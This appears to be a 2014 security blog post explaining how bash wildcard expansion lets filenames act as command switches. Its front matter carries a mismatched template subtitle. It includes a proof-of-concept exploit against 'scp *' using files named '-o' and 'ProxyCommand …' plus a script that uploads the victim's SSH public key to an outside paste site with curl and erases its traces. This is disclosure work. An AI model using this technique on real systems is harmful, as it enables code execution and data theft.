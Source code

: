 ```yaml
---
title: 'Exploiting Wildcard Expansion on Linux'
subtitle: 'Create a beautifully simple website in under 10 minutes :rocket:'
summary: Create a beautifully simple website in under 10 minutes.
authors:
- admin
tags: [Linux, bash, security]
categories: []
date: "2014-06-21T00:00:00Z"
lastmod: "2014-06-21T00:00:00Z"
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal point options: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight
image:
  caption: ''
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []

---
```


# Wildcard Expansion

When you type a command with a “*“ in bash, bash expands it to the list of all files in the directory and passes them all as arguments to the program. For example, “rm *“ , will remove files in the current directory.

## Filenames Misinterpreted as Switches

Most command line programs can take switches that affect how they work. For example, the ls command, when ran without any switches, looks like the output below.

```bash
[stephen@superX foo]$ ls
asdf.txt  foobar  -l
```

Now let’s say you want to know what group and user owns these files. You can pass “-l” to the ls program to figure that out, which looks like this:

```bash
[stephen@superX foo]$ ls -l
total 0
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 -l
```

Notice there is a file named -l in our directory. Let’s try “ls *“ now and see what happens:

```bash
[stephen@superX foo]$ ls *
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar
```

The last two outputs are similar, but the output of “ls *“ is different. It is missing the “-l” file, which was interpreted by ls as the “-l” switch. There’s no way for the ls program to tell that the “-l” came from the wildcard expansion and wasn’t actually what we in intended. It’s equivalent to running:

```bash
[stephen@superX foo]$ ls asdf.txt foobar.txt -l
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar
```

## Security Problems

Misinterpreted filenames can lead to problems when someone runs a wildcard expansion on a folder they download from the Internet, for example, without first checking the filenames. Could this be used to attack someone’s computer? Can we make a program do something bad by having specially-named files in the directory? Yes, it turns out that we can.

## Known Issue

This problem is well-known, but it still surprises a lot of people. There has been some discussion of it [on the Full Disclosure mailing list](http://seclists.org/fulldisclosure/2011/Sep/190).

Generally, we’re told that this is a “feature”, and that doing anything else would be even more surprising and difficult to understand to someone who really understands what’s going on. Even if that’s the case, if lots of people misunderstand it, and those people can be exploited as a result, then it should be considered a security vulnerability, either in the design or in the documentation.

The posting to Full Disclosure demonstrates how wildcard expansion can be abused to make a user delete files they didn’t intend to. That’s annoying, but isn’t too severe a problem. What we really want is to turn an improper use of “*“ into code execution, and that’s what we’ve done.

## Proof of Concept Exploit

To show that it’s possible to turn this problem into an arbitrary code execution attack, we attack the “scp” command. The scp command provides the “-o” option, which passes a configuration option to ssh. Luckily, ssh has a configuration option that involves running a command. We can take advantage of this to get our script running.

Suppose we have control over the contents of a directory, and inside that directory our victim will run the following command. Imagine, for example, that the user just downloaded a web application’s source code from the attacker’s website and is uploading the files to their web server.

```bash
$ scp * user@example.org:/var/www/
```

To exploit this command, in the directory we place three files:

“-o” - SCP will interpret this file as the “-o” switch.
“ProxyCommand sh supercool.sh %h %p” - SCP will interpret this file’s name as the argument to the “-o” switch.
“supercool.sh” - The script that will run, containing the attacker’s code.
“zzz.txt” - Another file in the directory which serves no purpose for the exploit.

It’s okay to have more files in the directory, so long as none of their names fall between “-o” and “ProxyCommand” in alphabetical order, or come before “-o” in alphabetical order (bash ignores the leading dash when sorting the names, and is case-insensitive). This limitation probably makes actual attacks difficult, since the very suspicious “ProxyCommand” file will show up near the top of the directory listing, if the user does look.

Inside “supercool.sh”, we have a script that will do what “ProxyCommand” is supposed to do, along with some malicious commands:

```script
#!/bin/sh
# Upload their SSH public key to the Internet, and put a scary message in /tmp/.
echo "By @DefuseSec and @redragonx..." > /tmp/you-have-been-hacked.txt
echo "This could have been your private key..." >> /tmp/you-have-been-hacked.txt
curl -s -d "jscrypt=no" -d "lifetime=864000"                                \
       -d "shorturl=yes" --data-urlencode "paste@$HOME/.ssh/id_rsa.pub"    \
       https://defuse.ca/bin/add.php -D - |                                \
       grep Location | cut -d " " -f 2 >> /tmp/you-have-been-hacked.txt
# Delete evidence of our attack.
rm ./-o ProxyCommand\ sh\ supercool.sh\ %h\ %p
echo > ./supercool.sh
# Do what ProxyCommand is supposed to do.
nc -p 22332 -w 5 $1 $2
```

When the victim runs their scp command, it will appear successful:

```bash
$ scp * user@example.org:/var/www/
supercool.sh
zzz.txt
```

But, when the user checks their /tmp/ directory, they’ll see our message:

```bash
$ cat /tmp/you-have-been-hacked.txt
By @DefuseSec and @redragonx...
This could have been your private key...
https://defuse.ca/b/QQ3nxADu
```

You can download the entire proof of concept directory in a .zip file [here](https://dicesoft.net/publicDownloads/poc.zip). Be careful, and have fun!

This was written by [@RedragonX](https://twitter.com/redragonx) and [@DefuseSec](https://twitter.com/defusesec).